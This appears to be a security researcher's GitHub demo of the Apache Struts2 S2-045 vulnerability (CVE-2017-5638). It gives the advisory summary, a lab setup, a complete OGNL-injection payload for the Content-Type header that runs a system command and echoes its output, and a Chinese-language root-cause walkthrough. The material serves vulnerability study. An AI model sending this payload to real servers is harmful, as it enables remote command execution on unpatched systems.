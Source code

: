 # S2-045 Demo

## Summary

| Who should read this    | All Struts 2 developers and users                            |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | Possible RCE when performing file upload based on Jakarta Multipart parser |
| Maximum security rating | Critical                                                     |
| Recommendation          | Upgrade to [Struts 2.3.32](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.32) or [Struts 2.5.10.1](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.10.1) |
| Affected Software       | Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10     |
| Reporter                | Nike Zheng <nike dot zheng at dbappsecurity dot com dot cn>  |
| CVE Identifier          | CVE-2017-5638                                                |

## Problem

在使用基于Jakarta插件的文件上传功能时，有可能存在远程命令执行，导致系统被黑客入侵。恶意用户可在上传文件时通过修改HTTP请求头中的Content-Type值来触发该漏洞，进而执行系统命令。

## Environment

| Struts2 Version | Struts-2.3.24          |
| :-------------- | :--------------------- |
| Web Server      | Tomcat 8.5.53          |
| IDE             | IDEA 2020.1.1 ULTIMATE |

## POC

![{FA66A3B9-0238-4B3D-A51E-8542B25F51EB}_20200724165155]({FA66A3B9-0238-4B3D-A51E-8542B25F51EB}_20200724165155.jpg)

Payload: 

```java
Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='calc').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}.multipart/form-data;
```

## Debug

详细的debug可参考：

https://blog.csdn.net/u011721501/article/details/60768657

https://paper.seebug.org/247/

这里简单说明一下漏洞成因。

传入非法的Content-type会引发JakartaMultiPartRequest类报错，并调用buildErrorMessage()方法处理错误信息。该方法调用findText()方法时传入了detailMessage参数，而detailMessage参数将Content-type的值拼接了进来。

`s2-046/web/WEB-INF/lib/struts2-core-2.3.24.jar!/org/apache/struts2/dispatcher/multipart/JakartaMultiPartRequest.class:91`

![image-20200724184101426](image-20200724184101426.png)

一直跟入findText() -> getDefaultMessage() -> translateVariables()，并且传入的是拼接有Content-Type值得message。

![image-20200724185053893](image-20200724185053893.png)

这个translateVariables之前分析过，解析传入的字符串是否是`%{`和`${`打头的，如果有就提取出来作为`ognl`表达式解析。这也是很多struts2 ognl表达式注入漏洞最终的触发点吧。

## Reference

- [S2-045](https://cwiki.apache.org/confluence/display/WW/S2-045)
- [S2-045 远程代码执行漏洞（CVE-2017-5638）]( https://github.com/vulhub/vulhub/blob/master/struts2/s2-045/README.zh-cn.md)
- [Struts-S2-045漏洞利用（含环境搭建、含POC）](https://blog.csdn.net/zzkk_/article/details/77159524)

